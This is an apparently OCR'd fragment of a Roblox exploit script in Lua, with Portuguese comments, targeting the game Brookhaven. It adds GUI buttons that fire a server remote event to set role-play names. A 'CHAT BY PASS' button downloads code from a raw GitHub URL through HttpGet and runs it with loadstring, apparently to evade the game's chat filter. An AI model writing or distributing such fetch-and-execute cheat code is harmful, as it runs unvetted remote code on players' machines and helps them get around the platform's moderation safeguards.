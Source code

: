 -- Adiciona o botão "🤑SALVADOR DO BROOCKHAVEN NAME🤑" na aba desejada
Tab9:AddButton({
    Name = "🤑SALVADOR DO BROOCKHAVEN NAME🤑️",
    Callback = function()
        local args = {
            [1] = "RolePlayName",
            [2] = "🎩SALVADOR DO BROOCKHAVEN🎩"
        }

        game:GetService("ReplicatedStorage"):WaitForChild("RE"):WaitForChild("1RPNam1eTex1t"):FireServer(unpack(args))
        print("Nome de RP definido: 🎩SALVADOR DO BROOCKHAVEN🎩")
    end
})

-- Adiciona o botão "🕶️DEFINIR NOME DE RP (MEMBER)🕶️" na aba desejada
Tab9:AddButton({
    Name = "🕶️NOME DE RP RED BLACK MEMBER🕶️",
    Callback = function()
        local args = {
            [1] = "RolePlayName",
            [2] = "🎩RED BLACK MEMBER🎩"
        }

        game:GetService("ReplicatedStorage"):WaitForChild("RE"):WaitForChild("1RPNam1eTex1t"):FireServer(unpack(args))
        print("Nome de RP definido: 🎩RED BLACK MEMBER🎩")
    end
})

local TabChat = Window:MakeTab({

    Name = "💬CHAT💬",

    Icon = "rbxassetid://126878062099997",

    PremiumOnly = false

})



TabChat:AddButton({

    Name = "💬CHAT BY PASS💬",

    Callback = function()

        -- Executa o script fornecido

        loadstring(game:HttpGet('https://raw.githubusercontent.com/Gazer-Ha/bruh/refs/heads/main/ImBadd1'))()

        print("Script do tutorial executado")

    end

})

